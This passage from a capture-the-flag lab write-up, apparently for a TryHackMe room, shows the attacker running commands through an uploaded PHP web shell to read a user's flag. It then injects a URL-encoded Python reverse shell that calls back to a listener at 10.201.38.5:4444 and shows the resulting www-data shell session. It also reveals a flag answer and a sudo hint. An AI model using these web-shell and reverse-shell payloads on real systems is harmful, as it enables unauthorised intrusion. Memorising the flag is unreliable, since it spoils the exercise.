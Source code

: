```bash
http://10.201.19.213/files/c.php?c=ls%20%20/home/wileec
```

<img width="1107" height="73" alt="image" src="https://github.com/user-attachments/assets/e3bc944c-d35f-42fe-bce0-e1a44ae7d8b0" />

```bash
http://10.201.19.213/files/c.php?c=cat%20/home/wileec/flag1.txt
```

<img width="1130" height="67" alt="image" src="https://github.com/user-attachments/assets/2e8f2b98-bbe8-4cb4-b303-c2c78776ec3c" />


<br>
<h2>Task 7 . Pivoting</h2>
<br>


<p><em>Answer the question below</em></p>

<p>7.1. User wileec can sudo! What can he sudo? Hint : sudo -l<br>
<code>(jsmith) NOPASSWD: /usr/bin/zip</code></p>

<br>

<p>6.2. Flag 1<br>
<code>THM{Hey!_Welcome_in}</code></p>


```bash
http://10.201.19.213/bolt/login
```

<img width="1125" height="582" alt="image" src="https://github.com/user-attachments/assets/33597c37-3663-4979-aac7-47bb0672cbb9" />


<br>

```bash
http://10.201.19.213/files/c.php?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.201.38.5%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

```bash
:~/EritSecurusI# nc -nv -l -p 4444
Listening on 0.0.0.0 4444
Connection received on 10.201.19.213 58917
www-data@Erit:/var/www/html/public/files$ whoami
whoami
www-data
www-data@Erit:/var/www/html/public/files$ pwd
pwd
www-data@Erit:/var/www/html/public/files$ ^Z
[1]+  Stopped                 nc -nv -l -p 4444
:~/EritSecurusI# stty raw -echo; fg
nc -nv -l -p 4444

www-data@Erit:/var/www/html/public/files$ export term=xterm
```
